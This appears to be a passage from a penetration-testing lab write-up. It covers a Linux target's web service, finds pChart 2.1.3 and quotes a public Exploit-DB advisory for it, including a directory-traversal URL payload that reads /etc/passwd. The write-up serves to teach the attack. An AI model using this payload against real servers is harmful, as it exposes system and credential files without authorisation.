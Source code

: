 

![](https://lh3.googleusercontent.com/Jq6o2wKTOgQdjK-45R8o6UzeV3lNo4uvMP8VVUHTf4Iv73rVEZ17IclYRNUxnGf2qEVtVxJ3Y_V5qem9gIlv6Q975ZgqZw4MtzVUVUue_NgEP12hddK0v42mtZtvenATiw)


We don’t have any interesting vulnerability available out there to gain root permissions. So let’s try to attack the available services.


## Exploitation

Let’s try to attack the port 80 where is running a **Apache 2.2.23**.

Let’s investigate about some metadata:


![](https://lh4.googleusercontent.com/_apgFI0V3wPHBgQTn9PVH3_m3rEcl7i78d3db0l2UPznZBRzJaLJrO6wje32MFSdlWM4IrXEZh2a4T-tGwYBihl8CmRfzqW9b3JHAc5UcMtEf3hHoILSZfxNsqOudCZa9g)


We found an interesting service called pChart 2.1.3 with the following path **pChart2.1.3/index.php **

Let’s do a searchsploit of this service:


![](https://lh4.googleusercontent.com/Qvy42gTDwBG8l9ICqQaKdf8vFpyXMruhK5vNOp6NNs5aocjXWyopxsCEIRsyjPFeYLJ6WGR7rdLQSswP8eADB5ytsB9RzE4EAl0gWF40Y4d-pdJh7JPdiWPA9cabQSwSYg)


Reading the exploit with:

```shell
cat /usr/share/exploitdb/exploits/php/webapps/31173.txt_


[0] Summary:

PHP library pChart 2.1.3 (and possibly previous versions) by default

contains an examples folder, where the application is vulnerable to

Directory Traversal and Cross-Site Scripting (XSS).

It is plausible that custom built production code contains similar

problems if the usage of the library was copied from the examples.

The exploit author engaged the vendor before publicly disclosing the

vulnerability and consequently the vendor released an official fix

before the vulnerability was published.

[1] Directory Traversal:

**"hxxp://localhost/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd"**

The traversal is executed with the web server's privilege and leads to

sensitive file disclosure (passwd, siteconf.inc.php or similar),

access to source codes, hardcoded passwords or other high impact

consequences, depending on the web server's configuration.
```
